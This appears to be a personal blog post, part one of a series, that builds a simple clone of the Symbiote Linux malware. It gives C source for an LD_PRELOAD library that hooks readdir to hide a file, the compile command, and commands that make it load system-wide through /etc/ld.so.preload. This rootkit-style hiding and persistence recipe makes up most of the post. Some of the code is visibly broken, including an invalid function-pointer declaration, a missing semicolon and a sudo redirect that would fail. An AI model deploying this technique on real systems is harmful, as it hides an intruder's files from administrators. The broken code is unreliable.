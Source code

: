 ```yaml
---
title: "Dynamic Linker Hijacking Experiments - Evasive Techniques (Part 1)"
date: 2022-10-02T21:45:03+03:00
draft: false
---
```


# Overview

Recently I heard about a new malware called [Symbiote](https://blogs.blackberry.com/en/2022/06/symbiote-a-new-nearly-impossible-to-detect-linux-threat), which the researches are calling the "Nearly-Impossible-to-Detect Linux Threat". I was very intrigued by how that malware is being implemented and how it works internally to remain undetected, so naturally I've started to research it. 


I highly advice you to read through these articles first before we begin with the actual post:

 - [Hijack Execution Flow: Dynamic Linker Hijacking](https://attack.mitre.org/techniques/T1574/006/)
 - [What Is the LD_PRELOAD?](https://www.baeldung.com/linux/ld_preload-trick-what-is)
 - [What is a Shared Library?](https://tldp.org/HOWTO/Program-Library-HOWTO/shared-libraries.html)

# Implementation 

I decided to implement a very simple alternative of this malware just as a proof of concept since it was really interesting me. My idea is to create a file that will be hidden in the system.

First, if you already read the articles that I've linked, it is apparent that we have to implement a shared library, that will override some symbols defined in the Linux Kernel.

What do we need first and how to hide a file from lets say a command like `ls`? With a little bit of investigating of how the `ls` works internally through the [source code](https://github.com/coreutils/coreutils/blob/master/src/ls.c) and the [linux manual page](https://man7.org/linux/man-pages/man1/ls.1.html)
We can see that internally we have a function that is called `print_dir`. I've truncated the comments of the original source code.

 ```c
 ...
static void
print_dir (char const *name, char const *realname, bool command_line_arg)
...
 ```


If we continue further down the function we can see the loop that actually iterates over the files

 ```c
...
  while (true)
    {
      errno = 0;
      next = readdir (dirp); // Here we can see that the loop iterates over readdir as long
      // as the pointer that readdir returns isn't null and the errno != 0
      if (next)
        {
          if (! file_ignored (next->d_name)) // we can see here that it the filename is
          // taken from the next variable, lets look through the source code of `readdir`
            {
      ...
```
Let's confirm that by invoking `nm` this will show us the dynamic symbols that are being loaded from shared libs.

```console
$ nm -D /usr/bin/ls | grep "readdir"
                 U readdir@GLIBC_2.2.5
```

Now I concluded that I need to search into the source code of `readdir` which is located [here](https://github.com/torvalds/linux/blob/master/fs/readdir.c) and the [linux manual page](https://man7.org/linux/man-pages/man3/readdir.3.html). The description more or less describes exactly what we concluded from the source code of `ls.c`. Lets see where we set that `d_name` variable.

```c
#include <dirent.h>

struct dirent *readdir(DIR *dirp); // Signature of the dirent
```

```c
struct dirent {
    ino_t          d_ino;       /* Inode number */
    off_t          d_off;       /* Not an offset; see below */
    unsigned short d_reclen;    /* Length of this record */
    unsigned char  d_type;      /* Type of file; not supported
                                    by all filesystem types */
    char           d_name[256]; /* Null-terminated filename */
};
```

> ⚠️ This reverse engineering/looking up the code might be a little bit tricky because of the different implementations of the `dirent` structure, if you look through some other source codes you may look at some slightly different structures. In this case the number of chars in the array is 256 but that might change to some other values. And you can always count that `d_name` will exists since this field must be implemented on all POSIX systems.

Alright, let's start implementing our own function `readdir` that we will wrap the original one with. 

```c
/* libhidemyfile.c */
#define _GNU_SOURCE
#include <dirent.h> // Including the Directory Entry structure
// The dynamic linking header file so we can use the dlsym
// which will give us the address for the readdir symbol
#include <dlfcn.h>
#include <string.h> // So we can use the 

struct dirent *readdir(DIR *dirp) {
    struct *(handle)(DIR *);
    // https://man7.org/linux/man-pages/man3/dlsym.3.html
    // Search for RTLD_NEXT, basically it allow us to wrap
    // the original function
    handle = dlsym(RTLD_NEXT, "readdir")
    struct dirent *dp;

    // Iterating over the return values of our original `readdir`
    while((dp = handle(dirp))) {
        // if our `needle`(our file `syl.lys`) is found in the `haystack`(`dp->d_name`)
        // break the loop and go to the next entry, essentially skipping our file.
        if(strstr(dp->d_name, "syl.lys") == 0)
            break;
    }
    return dp;
}
```

This is what our final version of wrapper for `readdir` would look like. Now let's try to compile it.

```console
$ gcc libhidemyfile.c -fPIC -shared -o libhidemyfile.so -ldl
```

Flags: 
- [fPIC](https://stackoverflow.com/questions/5311515/gcc-fpic-option)
- `-shared` creates a shared object
- [-D_GNU_SOURCE flag / _GNU_SOURCE](https://stackoverflow.com/questions/8836707/explanation-of-d-gnu-source-why-to-use-it-and-when) - TLDR: We need it for `RTLD_NEXT`
- [-ldl](https://ubuntuforums.org/archive/index.php/t-1054717.html)


Now that we have shared object (*.so) file lets see how to use it in action.

# How to overwrite the exported symbols? `LD_PRELOAD`

- [What is LD_PRELOAD?](https://man7.org/linux/man-pages/man8/ld.so.8.html)

I advice you to read that first to get a better understanding of how it works.

The next thing that we are going to do is to test our shared library and see if it works. Lets run `ls` with our `libhidemyfile.so` loaded before anything else.

```console
$ ls
libhidemyfile.so  syl.lys
$ LD_PRELOAD=./libhidemyfile.so ls
libhidemyfile.so
```

As you can see we successfully implement a shared library that hides our file from `ls`, and not only that command, every command that uses `readdir` won't be able to list our file as long as we load our shared library. So in that case we must think of a persistent way of how to load it without typing `LD_PRELOAD` in front of every command.

## /etc/ld.so.preload

If you read carefully the man pages for `LD_PRELOAD` you should know that you won't be able to override functions in the standard search directories without properly setting your set-user-ID permissions. 

Instead we are going to use the `/etc/ld.so.preload` which does not suffer from that restrictions. This suffers from requiring root privileges but c'mon.. if you are here you will get those!

We first need to move our shared library file in some root directory, preferably /lib/ since..it is a library.

```console
$ sudo mv ./libhidemyfile.so /lib/libhidemyfile.so
```

Then we just need to place our library dir in `ld.so.preload` file.

```console
$ sudo echo "libhidemyfile.so" > /etc/ld.so.preload
```

And if everything is good, executing `ls` or any of its aliases will hide our file from the output.

# End

If you reached here, thank you so much for the read. In the next part I will try to "completely" hide it from the system because now if we `cat` it despite not "reading" it in the directory would print us the contents of the file, but that will be the subject of the next post.

